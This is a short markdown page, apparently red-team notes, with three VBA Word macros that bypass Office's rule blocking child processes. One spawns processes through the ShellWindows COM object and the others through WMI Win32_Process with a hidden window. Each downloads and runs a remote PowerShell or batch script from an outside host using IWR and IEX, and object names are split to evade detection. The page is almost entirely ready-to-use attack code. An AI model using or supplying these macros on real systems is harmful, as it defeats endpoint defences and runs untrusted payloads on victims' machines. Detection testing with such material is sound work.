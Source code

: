 # Office Macro - COM

reference: https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3


### WordShellExecute

Word.
explorer->cmd->powershell.

```
Sub ASR_bypass_create_child_process_rule4()
    Const ShellWindows = _
    "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
    Set SW = GetObject("new:" & ShellWindows).Item()
    SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe IWR -uri ""https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail.bat"" -OutFile ""~\Documents\payload.bat"" ; ~\Documents\payload.bat", "C:\Windows\System32", Null, 0
End Sub
```
### WordWmicCreateProcess

Word.
Wmiprvse.exe->cmd->powershell.

```
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail.ps1')", Null, objConfig, intProcessID
End Sub
```

### WordBenignWMICCreateProcess

Word.
Wmiprvse.exe->cmd->powershell.

This method does not execute mimikatz.

```
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/chain_reaction_DragonsTail_benign.ps1')", Null, objConfig, intProcessID
End Sub
```
